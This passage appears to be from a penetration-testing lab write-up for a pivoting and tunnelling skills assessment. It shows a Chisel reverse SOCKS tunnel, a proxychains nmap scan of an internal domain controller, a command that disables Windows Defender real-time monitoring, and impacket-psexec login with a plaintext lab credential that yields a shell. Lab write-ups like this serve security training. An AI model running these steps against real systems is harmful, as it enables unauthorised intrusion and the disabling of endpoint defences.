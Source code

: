 Step 2: Transfer Chisel to pivot host 3 and connect to the server (listener):

(Disable Windows Defender using PsExec if unable to transfer tools: `Set-MpPreference -DisableRealtimeMonitoring $true`

PS C:\Users\vfrank\Desktop> .\chisel.exe client 172.16.6.35:3333 R:3080:socks

Step 3: Add entry to proxychains configuration file - `/etc/proxychains.conf`

socks5 127.0.0.1 3080

Step 4: Use proxychains to enumerate and access `**172.16.10.5**`:

┌──(kali㉿kali)-[~]

└─$ proxychains nmap 172.16.10.5 -F -T4

<SNIP>

Nmap scan report for 172.16.10.5

Host is up (2.3s latency).

Not shown: 94 closed tcp ports (conn-refused)

PORT STATE SERVICE

53/tcp open domain

88/tcp open kerberos-sec

135/tcp open msrpc

139/tcp open netbios-ssn

389/tcp open ldap

445/tcp open microsoft-ds

​

Nmap done: 1 IP address (1 host up) scanned in 218.95 seconds

#### 

Access target host `**172.16.6.25**` **using Impacket-PsExec:**[](https://nukercharlie.gitbook.io/htb-academy-cpts/internal-network-and-ad/pivoting-tunneling-and-port-forwarding/labs-skills-assessment#access-target-host-172.16.6.25-using-impacket-psexec)

┌──(kali㉿kali)-[~]

└─$ proxychains impacket-psexec vfrank:'Imply wet Unmasked!'@172.16.10.5

<SNIP>

Microsoft Windows [Version 10.0.17763.107]

(c) 2018 Microsoft Corporation. All rights reserved.

​

C:\Windows\system32> hostname

ACADEMY-PIVOT-DC01
